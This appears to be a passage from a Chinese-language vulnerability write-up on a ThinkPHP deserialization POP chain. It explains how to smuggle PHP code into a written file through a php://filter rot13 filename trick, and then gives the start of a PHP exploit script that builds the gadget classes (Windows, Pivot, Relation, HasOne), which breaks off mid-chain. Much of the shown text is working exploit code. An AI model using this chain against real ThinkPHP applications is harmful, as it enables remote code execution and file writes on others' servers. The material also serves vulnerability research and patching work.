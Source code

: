 
<img src="https://pic.imgdb.cn/item/611d47d34907e2d39c22d614.png" alt="">

- `$data` 值比较棘手，由于最后调用 `set` 方法中的参数来自先前调用的 `write` 方法只能为 `true`，且这里 `$expire` 只能为数值，这样文件内容就无法写 `shell`

<img src="https://pic.imgdb.cn/item/611d49004907e2d39c25c81b.png" alt="">

<img src="https://pic.imgdb.cn/item/611d49004907e2d39c25c834.png" alt="">

- 继续执行，跟进下方的 `setTagItem` 方法，会再执行一次 `set` 方法，且这里文件内容 `$value` 通过 `$name` 赋值(文件名)，所以可以在文件名上做手脚，例如

```php
php://filter/write=string.rot13/resource=./<?cuc cucvasb();?>
```

- 这里参考osword师傅分析的 `POP链构造图`

<img src="https://pic.imgdb.cn/item/611d4a3c4907e2d39c28e08c.png" alt="">

# EXP
- 由于 `windows`对文件名有限制，会写入失败，所以该漏洞在 `windows` 环境下无法进行复现
```php
<?php
namespace think\process\pipes;
use think\model\Pivot;
class Pipes{

}

class Windows extends Pipes{
    private $files = [];

    function __construct(){
        $this->files = [new Pivot()];
    }
}

namespace think\model;#Relation
use think\db\Query;
abstract class Relation{
    protected $selfRelation;
    protected $query;
    function __construct(){
        $this->selfRelation = false;
        $this->query = new Query();#class Query
    }
}

namespace think\model\relation;#OneToOne HasOne
use think\model\Relation;
abstract class OneToOne extends Relation{
    function __construct(){
        parent::__construct();
    }

}
class HasOne extends OneToOne{
    protected $bindAttr = [];
    function __construct(){
        parent::__construct();
        $this->bindAttr = ["no","123"];
    }
}
```
